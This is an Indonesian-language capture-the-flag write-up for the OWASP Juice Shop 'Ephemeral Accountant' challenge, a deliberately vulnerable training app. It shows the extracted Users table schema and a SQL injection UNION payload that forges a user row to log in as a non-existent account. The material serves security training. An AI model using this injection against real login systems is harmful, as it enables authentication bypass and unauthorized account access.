#Ephemeral Accountant

Pada **challenge ke-6**, tugas kita adalah melakukan login ke sebuah **akun fiktif** atau *non-existing account*.
Alamat email yang ditargetkan adalah `acc0unt4nt@juice-sh.op`. Untuk bisa masuk, kita perlu menelusuri endpoint pencarian lalu mengekstrak **skema database**. Dari skema tersebut, kita akan menemukan *query* yang berhubungan dengan pembuatan user baru.

Dengan teknik yang sama seperti soal sebelumnya, kita berhasil mengakses definisi tabel `Users`. Dari situ terlihat struktur query untuk pembuatan akun.

<img width="1919" height="864" alt="Screenshot 2025-09-11 023358" src="https://github.com/user-attachments/assets/d176c300-ebc1-4647-bdf2-24d331739978" />
  
Query asli tabel Users:

```sql
CREATE TABLE `Users` (
  `id` INTEGER PRIMARY KEY AUTOINCREMENT,
  `username` VARCHAR(255) DEFAULT '',
  `email` VARCHAR(255) UNIQUE,
  `password` VARCHAR(255),
  `role` VARCHAR(255) DEFAULT 'customer',
  `deluxeToken` VARCHAR(255) DEFAULT '',
  `lastLoginIp` VARCHAR(255) DEFAULT '0.0.0.0',
  `profileImage` VARCHAR(255) DEFAULT '/assets/public/images/uploads/default.svg',
  `totpSecret` VARCHAR(255) DEFAULT '',
  `isActive` TINYINT(1) DEFAULT 1,
  `createdAt` DATETIME NOT NULL,
  `updatedAt` DATETIME NOT NULL,
  `deletedAt` DATETIME
)
```

Selanjutnya, query tersebut dimodifikasi agar sesuai dengan akun target:

```sql
' UNION SELECT 
  45 as id,
  'acnt' as username,
  'acc0unt4nt@juice-sh.op' as email,
  '1234' as password,
  'customer' as role,
  '' as deluxeToken,
  '192.168.1.17' as lastLoginIp,
  'default.svg' as profileImage,
  '' as totpSecret,
  1 as isActive,
  '2024-08-30 14:32:12.456' as createdAt,
  '2024-08-30 14:32:12.456' as updatedAt,
  null as deletedAt--'
AND password = '098f6bcd4621d373cade4e832627b4f6'
AND deletedAt IS NULL;
```

Dengan menjalankan query hasil modifikasi tersebut, kita bisa login ke akun palsu yang tidak pernah dibuat sebelumnya, sehingga challenge **Ephemeral Accountant** berhasil diselesaikan
